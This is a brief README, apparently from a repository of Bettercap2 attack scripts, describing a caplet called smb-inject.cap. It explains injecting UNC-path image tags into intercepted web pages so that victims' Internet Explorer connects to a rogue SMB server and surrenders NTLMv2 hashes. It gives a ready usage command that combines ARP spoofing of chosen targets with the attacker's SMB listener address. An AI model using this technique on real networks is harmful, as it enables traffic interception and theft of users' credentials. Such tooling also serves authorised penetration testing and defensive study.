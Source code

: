 # Bettercap2 Caplets
### smb-inject.cap

__Description__: _Injects HTML image tags using UNC file path references (file://ip/smb.jpg). Forces clients rendering HTML in Internet Explorer, or applications using Windows IE objects, to connect to your SMB server. Run a rogue SMB server to capture NTLMv2 hashes_
__Related JS__: smb-inject.js
__Usage__:
`bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"`
__smb.listener.ip__ is the IP to your rogue SMB server
__arp.spoof.targets__ is the IP (single or CIDR notation) of the range to poison/spoof
